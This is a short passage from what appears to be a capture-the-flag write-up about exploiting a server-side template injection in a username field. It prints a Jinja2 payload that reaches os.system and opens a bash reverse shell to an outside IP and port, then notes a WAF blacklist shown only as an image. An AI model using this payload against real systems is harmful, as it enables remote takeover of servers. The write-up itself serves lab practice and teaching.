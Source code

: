 ![Pasted image 20250805180212.png](../../IMAGES/Pasted%20image%2020250805180212.png)

There we go, it works, since we know this runs as the `hazel` user, we can send ourselves a reverse shell exploiting this ssti, create an account with this username:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[40].__init__.__globals__['os'].system('bash -c "bash -i >& /dev/tcp/10.14.21.28/4444 0>&1"') }}
```

If we send the request, it gets triggered by a cheap WAF on the code, if we take a look again, the blacklist is:

![Pasted image 20250805180233.png](../../IMAGES/Pasted%20image%2020250805180233.png)
